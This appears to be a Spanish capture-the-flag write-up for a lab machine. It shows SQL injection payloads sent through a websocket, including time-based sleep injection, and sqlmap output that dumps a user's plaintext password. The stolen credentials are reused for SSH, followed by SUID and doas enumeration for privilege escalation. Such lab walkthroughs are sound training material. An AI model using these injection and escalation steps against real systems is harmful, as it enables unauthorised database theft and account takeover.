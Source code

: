 
la variable ws es un web socket que se conecta a la maquina en el puerto 9091.

la cual es vulnerable a sql injection, probando en la consola de la web se puede testear el siguiente codigo
```javascript
ws.onmessage = function (e) {console.log(e.data)}
ws.send(JSON.stringify({"id":"2"}))
ws.send(JSON.stringify({"id":"95280"}))
ws.send(JSON.stringify({"id":"2 or '1' = '1' -- -"}))
ws.send(JSON.stringify({"id":"95280 and sleep(10) -- -"}))
```


* buscar script que recibe peticion http y la pasa a un wesocket para usar sqlmap
* hacer script que dumpe la base de datos

---

┄┄Parameter: id (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 4020 FROM (SELECT(SLEEP(5)))ALtY)

dumped database (soccer_db)
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

---

# Lateral movement
```bash
ssh player@10.10.11.194
Password: PlayerOftheMatch2022
```


## Privilege escalation
enumeracion de archivos suid
```bash
find / -perm -4000 2>/dev/null
```

el archivo /usr/local/bin/doas tiene privilegios suid asi que se puede ejecutar como root.

se puede leer el archivo de configuracion de doas.
```bash
cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
